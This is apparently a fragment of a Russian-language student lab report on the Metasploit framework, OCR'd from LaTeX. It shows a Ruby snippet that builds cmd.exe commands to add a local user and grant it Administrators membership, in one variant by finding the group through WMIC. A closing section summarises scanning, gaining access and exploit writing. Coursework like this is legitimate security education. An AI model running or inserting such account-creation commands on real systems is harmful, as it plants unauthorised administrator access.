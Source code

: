 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{itemize}
\begin{verbatim}
    if not cust.empty?
      print_status("Using custom group name #{cust}")
      return "cmd.exe /c net user #{user} #{pass} /ADD && " +
        "net localgroup \"#{cust}\" #{user} /ADD"
    elsif wmic
      print_status("Using WMIC to discover the administrative group name")
      return "cmd.exe /c \"FOR /F \"usebackq tokens=2* skip=1 delims==\" " +
        "%G IN (`wmic group where sid^='S-1-5-32-544' get name /Value`); do " +
        "FOR /F \"usebackq tokens=1 delims==\" %X IN (`echo %G`); do " +
        "net user #{user} #{pass} /ADD && " +
        "net localgroup \"%X\" #{user} /ADD\""
    else
      return "cmd.exe /c net user #{user} #{pass} /ADD && " +
        "net localgroup Administrators #{user} /ADD"
    end

  end
\end{verbatim}



\end{itemize}




\section{Выводы}

После выполнения работы были изучены основные принципы работы с metasploit-framework, в основном через интерфейс msfconsole. Так же пришлось поработать через интерфейс armitage. С практической стороны были изучены методы сканирования хостов и получения к ним доступа, рассмотрены типичные атаки. Изучены основы программирования эксплоитов, код некоторых модулей.
\end{document}
